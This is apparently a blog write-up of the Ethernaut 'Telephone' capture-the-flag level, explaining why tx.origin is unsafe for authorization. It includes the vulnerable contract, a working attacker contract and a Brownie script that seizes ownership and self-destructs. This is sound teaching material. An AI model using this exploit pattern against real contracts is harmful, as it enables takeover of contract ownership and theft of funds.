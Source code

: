 ```yaml
---
title: Ethernaut - Level 04 - Telephone
date: 2022-08-24
---
```

{{<figure src="../images/telephone-4.svg" caption="Image courtesy of OpenZeppelin">}}
## Ethernaut 04 - Telephone
This level from Ethernaut, called Telephone, is a good exercise to learn the nuances between `tx.origin` and `msg.sender` and why you should never use `tx.origin` for authentication purposes:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Solidity has a global variable, `tx.origin`, which traverses the entire call stack and returns the address of the account that originally sent the transaction (or performed the call). Using this global variable for authentication in smart contracts leaves the contract vulnerable to phishing-like attacks, which is exactly what this level is about.

According to Solidity’s documentation:

> `tx.origin` holds the address of the sender of the transaction, while `msg.sender` holds the address of the sender of the message

This means that `tx.origin` will refers to the address of an account that sent a transaction, and `msg.sender` refers to the address of an account or a smart contract that is directly calling a smart contract’s function.

{{<figure src="../images/txorigin-msgsender.png" caption="`tx.origin` vs `msg.sender`">}}

Based on the previous image, if `Account` calls `contract A` , and `contract A` calls `contract B`, in `contract B`, the value assigned to `msg.sender` will be `contract B` and the value assigned to `tx.origin` will be `Account`.

## Where is the vulnerability?
The vulnerability in this contract is contained in the `changeOwner` function, as it uses `tx.origin` in the if statement before changing the contract’s owner:

```solidity {lineos=table,hl_lines=[2],lineofstart=1}
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
```
We will pass this level if `tx.origin` differs from `msg.sender` . This can be achieved if `msg.sender` is whatever address that calls the `changeOwner` function and `tx.origin` is the address that originally started the transaction. In other words, we will use a malicious contract (`telephoneAttack.sol`) as middleman. Once we first call our `telephoneAttack.sol` contract, it will call the `Telephone.sol` instance. For the `Telephone.sol` contract, `tx.origin` will be our EOA’s (external owned account) address and `msg.sender` will be our `telephoneAttack.sol` contract’s address.

A vulnerability like this, costed THORChain $8 million dollars, as Adrian Hetman documented in his [Unboxing tx.origin: Rune Token case](https://www.adrianhetman.com/unboxing-tx-origin/) article.

## Hacking the contract
Let's start creating our malicious contract, `telephoneAttack.sol`, with the following implementation:

```solidity {lineos=table,hl_lines=[9,10,11,13,14],lineofstart=1}
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'interfaces/telephoneInterface.sol';

contract TelephoneAttack {
    TelephoneInterface telephone;

    constructor(address _attackerAddress) public{
        telephone = TelephoneInterface(_attackerAddress);
    }

    function exploit() public {
        telephone.changeOwner(msg.sender);
    }

    function destroy() public {
        selfdestruct(msg.sender);
    }
}
```

As always, the script to trigger the attack is shown below:

```python {lineos=table,hl_lines=[5,6,11],lineofstart=1}
from brownie import accounts, config, interface, web3, TelephoneAttack


def exploit(target, hacker):
    deploy_attack = TelephoneAttack.deploy(target, {"from": hacker})
    deploy_attack.exploit({'from': hacker, 'allow_revert': True})
    deploy_attack.destroy({'from': hacker})


def main(target):
    hacker = accounts.add(config['wallets']['from_key'])
    print(f'Attacker address: {hacker}, Target address: {target}')
    exploit(target, hacker)
```


Based on the explanation provided before the attack can be summarized in few steps:

- We start by deploying our malicious contract (`TelephoneAttack.deploy`), therefore, `tx.origin` will have the user's account address.
- The `TelephoneAattack` contract initializes an instance of `Telephone` within its `constructor` passing the `TelephoneAttack` contract's address as `msg.sender`.
- Our script will call `deploy_attack.exploit`, which executes the `exploit()` function and calls `telephone.changeOwner(msg.sender);`.
- As mentioned earlier in this walkthrough, the `tx.origin` is a global variable which traverses the entire call stack and returns the address of the account that originally sent the transaction, our user account, differing from the value assigned to `msg.sender` (Our `TelephonAttack` contract's address).
- As `tx.origin` differs from `msg.sender`, our exploit will pass the `if` statement and execute the `owner = _owner;` statement, assigning us as the contract's legitimate owner

## Takeaways
The most valuable takeaway from this challenge is to learn to not use `tx.origin` for authorization purposes, additionally, by using `tx.origin` you are limiting interoperability between contracts, since contracts using `tx.origin` cannot be used by other contracts (*a contract can never be the `tx.origin`*). Instead, you should use `msg.sender` for authorization.